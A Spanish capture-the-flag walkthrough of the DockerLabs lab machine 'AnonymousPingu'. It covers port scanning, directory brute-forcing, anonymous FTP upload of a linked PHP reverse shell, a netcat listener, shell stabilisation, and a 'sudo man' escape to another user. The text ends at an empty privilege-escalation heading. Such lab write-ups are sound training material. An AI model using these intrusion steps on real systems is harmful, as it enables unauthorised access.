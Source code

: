 ```yaml
---
title: AnonymousPingu - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Facil      | ElPinguinoDeMario | 


# Reconocimiento 
Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que los puertos que se encuentran activos son el 21 (FTP) y el 80 (HTTP).
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/fbdcf75b-e25d-4d92-8797-3e558b2a92e6)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/35d4dab8-0433-48d9-9943-52e4e2a36bfd)

## Exploración Web
Al acceder a la página web, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/ede1f8d5-c313-4e69-94ee-aee4e813aa5e)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio. El siguiente comando fue ejecutado:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7684d11b-a469-40f3-8254-b0d964ec0112)

Vemos que hay un directorio upload pero no hay nada dentro.

![image](https://github.com/user-attachments/assets/d2061512-4cf0-4b1a-90a6-0abaad99a259)

## FTP

Procedemos a explorar el servicio FTP, ya que hemos identificado anteriormente que el usuario `anonymous` está habilitado y que tenemos permisos de escritura en el directorio `upload`. 

**Nota:** Los usuarios `anonymous` no suelen tener contraseñas o son opcionales en muchos servidores FTP.

A continuación, intentamos conectarnos al servidor FTP utilizando el siguiente comando:
```bash
ftp 172.17.0.2
```

Al intentar acceder al servidor FTP con el usuario `anonymous` y sin contraseña, observamos que podemos entrar perfectamente. 

![image](https://github.com/user-attachments/assets/ea8254c0-879e-4ece-b542-3f19975c77a5)

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

### Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: Utilizamos el comando de FTP para subir el archivo al directorio `upload`.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/c6b9c6c5-e334-466c-ac7c-931e21464118)

Nos ponemos a escuchar por netcat en mi caso por el 444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/efce64bc-e77c-42cb-8b26-c651f630a409)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/bbc7b73c-09e9-4095-a526-e827fdead208)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

## Intrusión en la Máquina

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `man` como `Pingu`. Para ello, debemos hacer lo siguiente:

![Interfaz de la herramienta](https://github.com/user-attachments/assets/cef8486b-9c3c-4905-90b8-1dc9d1c54986)

Este tipo de herramienta tiene un apartado que, al final, dice *MORE*. Si en lugar de presionar para bajar, escribimos `!/bin/bash`, se generará una shell con ese usuario.
```shell
sudo -u pingu /usr/bin/man find
```

![image](https://github.com/user-attachments/assets/7300b460-b586-4311-b862-5bd5df506bd4)


## Escalada de Privilegios

